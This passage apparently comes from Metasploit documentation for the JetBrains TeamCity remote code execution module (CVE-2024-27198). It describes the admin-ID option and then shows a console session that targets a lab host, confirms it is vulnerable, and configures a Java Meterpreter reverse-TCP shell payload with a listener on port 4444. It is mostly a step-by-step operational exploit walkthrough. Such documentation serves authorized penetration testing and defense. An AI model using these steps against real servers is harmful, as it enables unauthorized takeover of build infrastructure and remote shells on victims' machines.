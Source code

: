 ### TEAMCITY_ADMIN_ID
The user ID of an administrator account on the server. As the first user created during installation is an
administrator account, the ID will be 1 by default.

## Scenarios

### Java

```
msf6 > use exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198 
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set RHOST 192.168.86.68
RHOST => 192.168.86.68
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > check
[+] 192.168.86.68:8111 - The target is vulnerable. JetBrains TeamCity 2023.11.3 (build 147512) running on Windows Server 2022.
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Java
    1   Java Server Page
    2   Windows Command
    3   Linux Command
    4   Unix Command


msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set target 0
target => 0
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set payload java/meterpreter/reverse_tcp 
payload => java/meterpreter/reverse_tcp
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set LHOST eth0
LHOST => eth0
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > show options

Module options (exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS             192.168.86.68    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT              8111             yes       The target port (TCP)
   SSL                false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI          /                yes       The base path to TeamCity
   TEAMCITY_ADMIN_ID  1                yes       The ID of an administrator account to authenticate as
   VHOST                               no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  eth0             yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

```